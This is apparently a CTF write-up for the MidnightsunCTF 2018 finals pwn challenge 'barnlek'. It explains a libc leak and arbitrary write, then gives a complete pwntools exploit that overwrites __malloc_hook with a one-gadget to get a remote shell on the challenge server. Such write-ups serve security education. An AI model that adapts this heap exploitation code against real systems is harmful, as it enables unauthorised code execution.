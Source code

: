 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF finals 2018 barnlek
tags: 
    - kowu
---
```


Binary (64 Bit) and libc provided. Actually I dont know what the binary really does (it was late), it somehow messes with the heap and stack. But lets begin with it's functionality, it just reverses a string. As there was a malloc and free involved I was exited, expecting some heap exploitation. So I just played around and "reversed" two large strings and wanted to look at the result. Aaaand it crashed when I tried to enter the second string because it wanted to write the input at 0x4141414141414141. Uh well I don't know whats going on but that was an easy write anything anywhere primitive. Also it was possible to leak a libc base because the buffer was not cleared before use. We now have everything we need for pwn. The idea is as follows:
* leak libc base
* do magic by writing large input and let the next read write to malloc hook
* overwrite malloc hook with one gadget
* malloc gets called, we get a shell

To meet the one gadget constraints I used zerobytes instead of the good old As.

```python
from pwn import *

r = remote("34.247.227.162", 12345)


def act(data):
    r.sendline(data)
    r.recvuntil("reverse: ")
    res = r.recvuntil("input: ")[:-7][::-1]
    return res


def sploit():
    libc = struct.unpack("<Q", act("A" * 8)[10:].ljust(8, '\x00'))[0] - 0x3c5620
    log.info("libc {:x}".format(libc))
    arr = [0] * 0x80
    arr[19] = libc + 0x3c67a8
    act(struct.pack("<" + "Q" * len(arr), *arr))
    r.send(struct.pack("<Q", libc + 0xf02a4))
    r.interactive()


if __name__ == '__main__':
    r.recvuntil("input: ")
    sploit()

```
